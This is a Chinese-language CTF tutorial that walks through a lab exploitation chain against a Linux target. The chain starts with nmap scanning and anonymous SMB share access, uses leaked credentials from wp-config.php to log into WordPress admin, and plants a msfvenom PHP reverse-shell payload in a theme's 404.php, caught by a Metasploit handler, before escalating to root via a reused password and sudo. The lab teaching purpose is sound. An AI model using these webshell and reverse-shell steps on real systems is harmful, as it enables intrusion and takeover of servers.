# CTF夺旗赛教程：P9：SMB信息泄露实战 🚩

在本节课中，我们将学习如何利用SMB（Server Message Block）协议的信息泄露漏洞，逐步获取目标主机的访问权限，最终提升至root权限并夺取flag值。

## 什么是SMB协议？ 🤔

上一节我们介绍了课程目标，本节中我们来看看SMB协议的基础知识。

SMB是Server Message Block的缩写。它是一个通信协议，由微软和英特尔公司在1987年制定的一个网络协议，主要作为微软网络的通信协议。后来Linux移植了SMB协议，并且改换名称为Samba。

SMB协议是基于TCP-NetBIOS下的，一般使用的端口号是**139**和**445**。SMB协议用来访问计算机资源。可以通过分享对应的文件夹，打开SMB协议，远程计算机就可以通过该协议来下载对应的资源。

下图展示了一个典型的网络拓扑：一台计算机开放了SMB协议并设置了共享，另一台机器就可以通过网络连接这台计算机，下载其上的资源。


## 实验环境搭建 🛠️



了解了SMB协议后，我们需要一个环境来实践。以下是本次实验的环境配置：



*   **攻击机**：Kali Linux， IP地址：`192.168.253.12`
*   **靶机**：Linux系统， IP地址：`192.168.253.17`

我们的最终目标是获取靶机上的flag值。这意味着我们需要想方设法获取靶机的控制权限。





## 信息收集与探测 🔍



拿到靶机IP后，第一步是进行信息探测。渗透测试的本质就是针对目标机器上开放的服务进行漏洞探测，发送对应的数据包，最终获取最高权限。

以下是信息收集的常用步骤：



首先，我们使用Nmap来探测靶机开放的服务。`-sV`参数用于探测服务版本信息。

```bash
nmap -sV 192.168.253.17
```


除了探测服务，我们还可以进行更全面的扫描。`-A`参数表示探测所有信息，`-v`表示详细输出，`-T4`表示使用快速扫描。



```bash
nmap -A -v -T4 192.168.253.17
```




扫描完成后，需要对结果进行分析。计算机通过端口区分不同服务。0-1023是常见服务的固定端口。在扫描中，我们尤其要注意一些特殊端口，例如大端口号的HTTP服务，可能隐藏着管理界面。

## 分析SMB服务弱点 🎯



从扫描结果中，我们发现靶机开放了**139**和**445**端口，运行着SMB服务。




针对SMB服务，我们可以进行以下弱点分析：



首先，尝试使用空口令登录SMB共享。如果成功，就可以查看并下载敏感文件。使用`smbclient -L`命令列出目标IP共享的所有目录。

```bash
smbclient -L //192.168.253.17
```


输入空密码后，返回了三个结果：`print$`（打印机共享）、`share`（共享文件夹）、`IPC$`（空链接，一种无需用户名即可登录的共享方式）。

接下来，我们使用`smbclient`连接具体的共享目录进行查看。



```bash
smbclient //192.168.253.17/share
```


使用空密码成功进入`share`目录。使用`ls`列出文件，发现一个名为`deets.txt`的文件。使用`get`命令将其下载到本地。

```bash
get deets.txt
```






在另一个终端查看文件内容，发现一个密码：`12345`。

```bash
cat deets.txt
```




继续探索，在`share`目录下发现一个`wordpress`文件夹。WordPress的配置文件`wp-config.php`中通常包含数据库用户名和密码。

```bash
cd wordpress
get wp-config.php
```


查看下载的配置文件，我们得到了数据库的用户名（`admin`）和密码。

## 利用泄露信息扩大战果 ⚔️

获得了凭据后，我们尝试多途径登录。首先尝试用数据库密码远程登录MySQL（扫描显示开放3306端口），但失败了。接着尝试用`admin`用户和密码通过SSH（22端口）登录，也失败了。

除了分析敏感信息，也可以检查SMB服务是否存在远程溢出漏洞。使用`searchsploit`搜索对应SMB版本号，但本例中未发现可用漏洞。

```bash
searchsploit samba 3.X
```

既然直接登录行不通，我们转向HTTP协议。之前扫描显示有Web服务。使用`dirb`工具扫描Web目录。

```bash
dirb http://192.168.253.17
```

扫描发现了`/wp-admin`目录，这是WordPress的后台管理登录页面。在浏览器中打开该页面，使用之前从SMB中得到的`admin`用户名和密码`12345`尝试登录。



登录成功！现在我们进入了网站后台。

## 获取WebShell与系统权限 🐚

进入WordPress后台后，我们可以通过编辑主题文件上传WebShell。首先，使用`msfvenom`生成一个PHP反向连接木马。

```bash
msfvenom -p php/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```

将生成的PHP代码（去掉开头的注释）保存为`webshell.php`文件。接着，在Metasploit中启动监听。

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
run
```



回到WordPress后台，在`外观` -> `主题编辑器`中，选择`404.php`模板文件，将我们的`webshell.php`代码粘贴进去并更新文件。




然后，访问该主题对应的404页面URL来触发WebShell。例如：`http://192.168.253.17/wp-content/themes/twentyfifteen/404.php`。



此时，Metasploit监听端成功收到了反弹回来的Shell连接，我们获得了`www-data`用户的权限。


```bash
whoami
# 输出：www-data
```




## 权限提升与夺取Flag 🏆

获得初始Shell后，首先优化终端显示。

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```





查看系统用户，发现一个名为`toogie`的用户。

```bash
cat /etc/passwd | grep /home
```







尝试切换到`toogie`用户，并使用之前发现的密码`12345`。

```bash
su toogie
# 密码：12345
```


切换成功！




检查`toogie`用户的sudo权限，发现它可以执行`sudo su`命令。


```bash
sudo -l
sudo su
```

成功提升到`root`权限！最后，在根目录下寻找并查看flag文件。

```bash
cd /root
ls
cat flag.txt
```




成功夺取flag！

## 总结 📝

本节课中我们一起学习了完整的SMB信息泄露利用链：

1.  **信息收集**：使用Nmap扫描目标，发现开放的SMB服务（139/445端口）。
2.  **弱点利用**：利用SMB空口令或弱口令访问共享目录，下载并分析敏感配置文件，获取数据库或系统凭据。
3.  **横向移动**：利用获取的凭据尝试登录其他服务（如SSH、MySQL），或登录Web后台（如WordPress）。
4.  **获取立足点**：通过Web应用漏洞（如文件上传）获取WebShell，得到初始系统权限。
5.  **权限提升**：利用系统配置弱点（如sudo权限不当、用户弱密码）将权限提升至root。
6.  **夺取目标**：在root目录下找到并读取flag文件。


核心要点：对于开放139和445端口的机器，务必检查SMB共享是否可匿名访问。Flag通常位于`/root`或`/home`目录下，需要root权限才能查看。整个渗透过程环环相扣，信息收集与逻辑分析至关重要。